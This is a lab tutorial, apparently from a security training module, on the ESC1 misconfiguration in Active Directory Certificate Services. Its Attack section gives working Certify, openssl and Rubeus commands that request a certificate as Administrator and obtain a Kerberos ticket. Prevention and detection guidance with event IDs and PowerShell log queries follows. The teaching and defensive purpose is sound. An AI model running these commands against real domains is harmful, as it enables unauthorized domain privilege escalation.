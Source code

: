 ## Description

Active Directory Certificate Services became one of the most favorite attack vector due to:
1. Using certificates for authentication has more advantages than regular username/password credentials.
2. Most PKI servers were misconfigured/vulnerable to at least one of the 8 attack vectors discovered by SpectreOps.
Some of the advantages of using certificates are:
- Users and machines certificates are valid for 1+ years.
- Resetting a user password does not invalidate the certificate.
- Misconfigured templates allow for obtaining a certificate for any user.
- Compromising the CA's private key results in forging _Golden Certificates_.
We will demonstrate the first technique, ESC1, which description is:
- Domain escalation via No Issuance Requirements + Enrollable Client Authentication/Smart Card Logon OID templates + CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT.

## Attack

To begin with, we will scan the environment for vulnerabilities in the PKI infrastructure.
```powershell
.\Certify.exe find /vulnerable
```
![[certifyRequest.png]]

This template is vulnerable because:
- All Domain users can request a certificate on this template.
- The flag [CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1) is present.
- Manager approval is not required.
- The certificate can be used for 'Client Authentication'.

To abuse this template, let's run:
```powershell
.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator
```

Once it finishes, we will obtain a certificate successfully. Before we can use it, we need to run:
```shell
sed -i 's/\s\s\+/\n/g' cert.pem
```
and:
```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Now we have a certificate in a usable PFX format, and we can request a Kerberos TGT for Administrator and authenticate with the certificate.
```powershell
.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt
```

## Prevention

The attack would not be possible if the mentioned flag wasn't enabled. Another method to thwart this attack is to require _CA certificate manager approval_ before issuing certificates.
Because there are many different privilege escalation techniques, it is advisable to regularly scan the environment with Certify to find potential PKI issues.

## Detection

When the CA generates the certificate, 2 events are logged, one for the received request (4886) and one for the issued certificate (4887). We get no details of SAN, only requester information.
If you open the certificate, under "Subject Alternative Name", we will find "Principal Name=Administrator".
This is also possible to view through `certutil -view`.
Finally, we used the certificate for authentication and obtained a TGT. This will be logged with the event ID 4768.
The events 4886 and 4887 will be generated on the machine issuing the certificate. To access them, we can do:
```cmd
runas /user:eagle\htb-student powershell
```
```powershell
New-PSSession PKI
```
```powershell
Enter-PSSession PKI
```
```powershell
Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
```
```powershell
Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
```

To view the full audit log of the events, we can pipe the output int Format-List, or save the events in an array and check them individually.
```powershell
$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
$events[0] | Format-List -Property *
```
